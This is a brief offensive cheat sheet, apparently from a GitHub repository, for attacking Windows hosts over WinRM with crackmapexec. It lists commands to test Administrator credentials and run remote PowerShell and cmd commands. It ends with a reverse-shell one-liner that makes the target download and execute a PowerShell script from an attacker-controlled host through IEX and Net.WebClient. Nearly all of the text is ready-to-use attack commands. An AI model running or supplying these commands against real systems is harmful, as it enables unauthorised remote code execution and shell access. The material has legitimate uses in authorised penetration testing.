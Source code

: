 # winrm

## check connection

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password>
```

## run powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -X <whoami>
```

## run cmd powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -x <dir>
```

## reverse shell

```bash
crackmapexec winrm $rhost -u Administrator -p <password> -X "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://<lhost>:<lport>/reverse-shell/powershell.ps')\""
```
